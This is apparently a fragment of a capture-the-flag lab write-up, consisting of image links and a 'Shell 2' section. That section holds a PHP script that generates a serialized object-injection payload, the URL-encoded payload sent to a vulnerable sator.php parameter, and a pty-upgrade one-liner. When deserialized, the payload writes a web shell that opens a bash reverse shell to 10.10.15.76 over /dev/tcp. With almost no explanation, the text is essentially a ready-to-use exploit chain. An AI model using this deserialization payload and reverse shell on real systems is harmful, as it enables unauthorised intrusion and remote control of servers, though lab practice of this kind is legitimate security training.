





Shell 2
 GNU nano 4.9.3 test.php
<?php
class DatabaseExport
{
public $user_file = 'test.php';
public $data = '<?php exec("/bin/bash -c \'bash -i > /dev/tcp/10.10.15.76/4567 0>&1\'"); ?>';
public function __destruct(){
file_put_contents(__DIR__ . '/' . $this ->user_file, $this->data);
}
}
$obj = new DatabaseExport();
$serial = serialize($obj);
echo $serial;
http://10.10.10.223/sator.php?arepo=O%3A14%3A%22DatabaseExport%22%3A2%3A%7Bs%3A9%3A%22user_file%22%3Bs%3A8%3A%22test.php%22%3Bs%3A4%3A%22data%22%3Bs%3A73%3A%22%3C%3Fphp%20exec%28%22%2Fbin%2Fbash%20-c%20%27bash%20-i%20%3E%20%2Fdev%2Ftcp%2F10.10.15.76%2F4567%200%3E%261%27%22%29%3B%20%3F%3E%22%3B%7D10.10.10.223/test.php?
python3 -c 'import pty;pty.spawn("/bin/bash")'